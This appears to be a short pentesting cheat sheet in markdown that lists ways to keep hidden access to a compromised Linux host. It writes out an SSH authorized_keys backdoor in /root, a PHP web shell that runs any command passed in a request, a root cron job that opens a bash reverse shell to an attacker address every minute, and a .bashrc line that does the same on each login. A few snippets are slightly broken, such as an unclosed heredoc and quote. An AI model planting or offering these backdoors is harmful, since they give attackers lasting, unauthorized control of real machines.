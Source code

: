 [back](/README.md)
### ssh backdoor

The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory.

1. generate ssh-keygen
```
ssh-keygen
```
2. go to /root.ssh and leave our public key there with name `authorized_keys`

---
### php backdoor

1. put php code inside /var/www/html as file shell.php
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

2. go to link http://[ip[/shell.php and execute command:

```
http://<ip>/shell.php?cmd=id
```

---
### cron job backdoor

1. create reverse_shell.sh
```
cat > reverse_shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/<your ip>/4444 0>&1
```
2. add reverse_shell.sh to execute every minute
```
echo "* * * * * root /path/to/reverse_shell.sh >> /etc/crontab
```

---
### bashrc backdoor

```
echo 'bash -i >& /dev/tcp/<your ip>/4444 0>&1' >> ~/.bashrc
```
every time user logs in, reverse_shell gets executed